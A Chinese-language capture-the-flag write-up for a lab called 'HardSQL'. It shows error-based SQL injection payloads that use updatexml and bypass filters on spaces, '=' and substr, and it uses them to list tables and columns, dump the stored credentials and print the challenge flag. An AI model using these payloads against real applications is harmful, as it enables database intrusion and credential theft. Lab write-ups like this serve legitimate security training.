



# HardSQL1

1、首先打开并访问靶机，发现是一个登录界面。

输入1'1试试，发现有报错。



所以我们可以尝试报错注入。

2、先不用报错注入先试试一些常规注入，比如万能密码之类的。发现过滤了很多关键字，比如空格、=



3、我们尝试报错注入查看库名。

```
1'or(updatexml(1,concat(0x7e,database(),0x7e),1))#
```

得到库名'geek'


4、继续使用报错注入查看表名，这里因为空格被过滤了，所以用()代替空格，而且因为等号=被过滤了，所以可以使用like来代替

```
1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))#
```

得到表名'H4rDsq1'


5、报错注入查看列名

```
1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))#
```

查看到列名id，username，password


6、拿到列名后输出表中信息。

```
1'or(updatexml(1,concat(0x7e,(select(group_concat(username,'-',password))from(H4rDsq1)),0x7e),1))#
```

得到flag了，但是发现只有一半flag。

**~flag-flag{747f0adc-5d5e-486e-ae**



---

什么原因呢？这是因为updatexml报错注入最多只能输出32个字符，如果要看到后面的内容其实可以使用substr，但是substr被过滤了，但是还可以使用right()函数从字符串最右边起开始输出字符。

比如

```
select right('hello,world',5);
会输出world
```

所以构造语句使用right()突破字符限制

```
1'or(updatexml(1,concat(0x7e,(select(group_concat((right(password,25))))from(H4rDsq1)),0x7e),1))#
```

前一段~flag-flag{747f0adc-5d5e-486e-ae

得到后一段flag值~e-486e-ae7a-58a2d1a6c670}~

拼接两段flag，拼接的时候注意不要重复拼接相同的部分，所以第二段flag应从7a-58a2d1a6c670}拼接

```
flag{747f0adc-5d5e-486e-ae7a-58a2d1a6c670}
```

